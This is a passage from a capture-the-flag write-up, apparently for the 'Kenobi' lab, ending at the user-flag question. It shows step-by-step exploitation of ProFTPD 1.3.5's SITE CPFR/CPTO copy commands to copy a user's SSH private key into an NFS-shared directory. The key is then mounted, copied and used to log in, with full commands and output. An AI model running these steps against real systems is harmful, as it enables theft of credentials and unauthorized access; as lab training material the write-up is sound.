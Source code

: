 We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nc 10.10.107.130 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.107.130]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/ssh_id
250 Copy successful
```
We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine

- `mkdir /mnt/kenobiNFS`
- `mount 10.10.107.130:/var /mnt/kenobiNFS`
- `ls -la /mnt/kenobiNFS`

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```bash
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cp /mnt/kenobiNFS/tmp/ssh_id ~/Downloads
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cd ~/Downloads                          
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ chmod 600 ssh_id
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ ssh -i ssh_id kenobi@10.10.107.130
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

**Q4. What is Kenobi's user flag (/home/kenobi/user.txt)?**